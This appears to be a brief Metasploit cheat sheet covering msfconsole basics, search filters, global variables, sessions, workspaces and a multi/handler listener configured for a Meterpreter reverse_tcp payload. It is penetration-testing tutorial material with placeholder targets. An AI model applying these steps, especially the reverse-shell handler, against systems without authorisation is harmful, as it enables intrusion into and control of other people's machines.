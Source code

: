 ## Basic usage
- Run the command `msfconsole` to open Metasploit.
- Use `search <vulnerability>` to find different exploits.
- Choose the one you want to use with `use <number>`.
- Use `show options` to select the payload.
- Choose the payload with `set payload <number>`.
- Set the necessary parameters seen with `show options` using `set <parameter> <value>`. Only the ones marked with **yes** are mandatory.
- To execute, use `run` or `exploit`.

## Efficient search
The `search` command in **Metasploit** allows you to find specific modules based on filters.
- To find modules of a particular type, use the `type` filter.
- To find modules by name or related keywords, use the `name` filter.

```bash
# This example lists auxiliary modules for ftp
search type:auxiliary name:ftp
```

## Setting global variables 
In **Metasploit**, you can use **global variables** to avoid manually setting the same value (like `RHOSTS`) every time you switch between modules.

```bash
setg RHOST <target_ip>
```

## Sessions
In **Metasploit**, a session represents an active connection between the attacker and the target system. After exploiting a vulnerability, Metasploit creates a session, allowing the attacker to interact with the compromised system. Sessions can be used for various tasks like running commands, uploading or downloading files, pivoting, or escalating privileges.

```bash
# List all active sessions:
sessions
# Interact with a specific session
sessions -i <session_id>
# Background the current session
background
# Exit a session
sessions -k <session_id>
```

## Workspace
**Workspace** is a feature that allows you to manage multiple sets of data in the Metasploit database. Each workspace acts as a separate container for storing information like host scans, services, vulnerabilities, and credentials, making it easier to organize data from different penetration testing engagements or target environments.

**List Workspaces:**

```bash
workspace
```

**Create a New Workspace:**

```bash
workspace -a <workspace_name>
```

**Switch to a Workspace:**

```bash
workspace <workspace_name>
```

**Delete a Workspace:**

```bash
workspace -d <workspace_name>
```

## Setting a handler
1. **Use the `multi/handler` Module**
This module is used to handle incoming connections from reverse payloads.

```bash
use multi/handler
```

2. **Set the Payload**

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

3. **Configure and run**

```bash
set LHOST <your_IP>
set LPORT <your_port>
run
```